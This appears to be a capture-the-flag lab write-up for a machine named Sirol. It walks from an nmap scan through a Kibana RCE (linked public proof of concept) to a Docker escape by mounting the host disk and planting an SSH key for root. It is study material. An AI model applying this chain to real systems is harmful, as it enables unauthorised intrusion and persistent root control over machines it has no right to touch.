 # Sirol

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.54
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:18 +08
Nmap scan report for 192.168.219.54
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
3306/tcp  open   mysql
5601/tcp  open   esmagent
24007/tcp open   unknown
```

### Kibana RCE

Port 5601 had a Kibana instance running:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Using the Dev Tools Console, we can check the version that is running:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit:

{% embed url="https://github.com/Cr4ckC4t/cve-2019-7609" %}

Using the above PoC, we can get a shell on the Docker Container:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mount --> Docker Escape

We can use `fdisk` to check the drives that are available:

```
root@0873e8062560:/tmp# fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris
```

`/dev/sda1` was likely to be the host machine, and we can try to use `mount` on it:

```
root@0873e8062560:/tmp# mkdir /mnt/tmp
root@0873e8062560:/tmp# mount /dev/sda1 /mnt/tmp
```

The above commands would give us `root` access over the host machine's file system:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Using this, we can `echo` our own SSH public key into the `authorized_keys` folder for the `root` user, and then just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
